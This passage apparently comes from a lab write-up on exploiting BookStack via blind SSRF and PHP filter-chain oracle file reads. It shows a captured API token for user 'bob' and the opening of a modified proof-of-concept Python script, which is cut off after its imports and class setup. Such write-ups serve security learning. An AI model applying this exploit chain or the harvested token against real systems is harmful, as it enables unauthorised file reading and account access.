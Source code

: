 - [https://fluidattacks.com/advisories/imagination/](https://fluidattacks.com/advisories/imagination/)
- [https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/)
- [https://github.com/synacktiv/php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)

In order to work we needed to find the `token` of `bob` so we first had a look at the `documentation` and then we grabbed the `token` form the `source` of the `page`.

- [https://teampass-api.readthedocs.io/api/authorization.html](https://teampass-api.readthedocs.io/api/authorization.html)

![](images/2025-02-24_11-39_80_bookstack_bob_profile_api_token.png)

| Token                                    |
| ---------------------------------------- |
| AsrvZTgvrTWbPnZRRuhit3erQ8m2QlKsK4OftJat |

### Proof of Concept (PoC)

For this `CVE` there was also kind of an `PoC` available but it needed some modification to `extract data` as `Base64 blob`.

```c
#!/usr/bin/env python3
import sys
import signal
import argparse
import json
from filters_chain_oracle.core.requestor import Requestor
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.bruteforcer import RequestorBruteforcer

"""
Class FiltersChainOracle, defines all the CLI logic.
- useful info -
This tool is based on the following script : https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py
Each step of this trick is detailed in the following blogpost : https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle
"""
class FiltersChainOracle():
    def __init__(self):
        self.requestor = None
```